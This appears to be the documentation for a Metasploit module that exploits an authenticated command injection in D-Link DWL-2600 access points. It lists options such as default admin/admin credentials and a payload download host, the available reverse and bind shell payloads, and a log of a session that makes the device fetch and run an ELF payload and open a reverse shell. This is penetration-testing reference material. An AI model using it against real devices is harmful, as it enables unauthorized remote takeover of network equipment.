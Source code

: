 # DLINK DWL-2600 Authenticated Command Injection

## Overview
DLINK DWL-2600 WiFi Access Points contain an authenticated command injection vulnerability.  This vulnerability was originally discovered by RAKI BEN HAMOUDA and posted to exploit db here: [https://www.exploit-db.com/exploits/46841](https://www.exploit-db.com/exploits/46841).

## Options
* HttpUsername - defaults to 'admin'
* HttpPassword - defaults to 'admin'
* DOWNHOST - Alternative host to request MIPS payload from.
* DOWNFILE - File name to download - defaults to a random value.
* HTTP_DELAY - Time that the HTTP Server will wait for the ELF payload request.

In addtiion you will probably want to set `LHOST` and `SRVHOST`.

## Payloads
```
msf5 exploit(linux/http/dlink_dwl_2600_command_injection) > show payloads

Compatible Payloads
===================

   #   Name                                    Disclosure Date  Rank    Check  Description
   -   ----                                    ---------------  ----    -----  -----------
   0   generic/custom                                           normal  No     Custom Payload
   1   generic/shell_bind_tcp                                   normal  No     Generic Command Shell, Bind TCP Inline
   2   generic/shell_reverse_tcp                                normal  No     Generic Command Shell, Reverse TCP Inline
   3   linux/mipsle/exec                                        normal  No     Linux Execute Command
   4   linux/mipsle/meterpreter/reverse_tcp                     normal  No     Linux Meterpreter, Reverse TCP Stager
   5   linux/mipsle/meterpreter_reverse_http                    normal  No     Linux Meterpreter, Reverse HTTP Inline
   6   linux/mipsle/meterpreter_reverse_https                   normal  No     Linux Meterpreter, Reverse HTTPS Inline
   7   linux/mipsle/meterpreter_reverse_tcp                     normal  No     Linux Meterpreter, Reverse TCP Inline
   8   linux/mipsle/reboot                                      normal  No     Linux Reboot
   9   linux/mipsle/shell/reverse_tcp                           normal  No     Linux Command Shell, Reverse TCP Stager
   10  linux/mipsle/shell_bind_tcp                              normal  No     Linux Command Shell, Bind TCP Inline
   11  linux/mipsle/shell_reverse_tcp                           normal  No     Linux Command Shell, Reverse TCP Inline

```

## Example output
```
msf5 exploit(linux/http/dlink_dwl_2600_command_injection) >          
[*] Started reverse TCP handler on 192.168.0.101:4444                                                                                                                                                                
[*] 192.168.0.100:80 - Trying to login with admin / admin                                             
[+] 192.168.0.100:80 - Successful login admin/admin                                                       
[+] 192.168.0.100:80 - Received Auth token: dXXKqdASZYXccuuzDVICgKzxRyKqBXQE                                                                                                                                         
[*] 192.168.0.100:80 - Starting up our web service on http://192.168.0.101:8080/PxAlyUgUNw ...                                                                                                                       
[*] Using URL: http://192.168.0.101:8080/PxAlyUgUNw                                                       
[*] 192.168.0.100:80 - Asking the DLINK device to download http://192.168.0.101:8080/PxAlyUgUNw           
[*] Sending CGI payload using token: dXXKqdASZYXccuuzDVICgKzxRyKqBXQE                                     
[*] 192.168.0.100:80 - Sending the payload to the server...                                               
[*] 192.168.0.100:80 - Waiting for the victim to request the ELF payload...                               
[*] 192.168.0.100:80 - Asking the DLINK device to chmod PxAlyUgUNw                                        
[*] Sending CGI payload using token: dXXKqdASZYXccuuzDVICgKzxRyKqBXQE                                     
[*] 192.168.0.100:80 - Asking the DLINK device to execute PxAlyUgUNw                   
[*] Sending CGI payload using token: dXXKqdASZYXccuuzDVICgKzxRyKqBXQE                                     
[*] Command shell session 1 opened (192.168.0.101:4444 -> 192.168.0.100:39856) at 2019-12-24 11:08:47 -0600                                                                                                          
[+] Deleted /tmp/lxnlxbhr
```
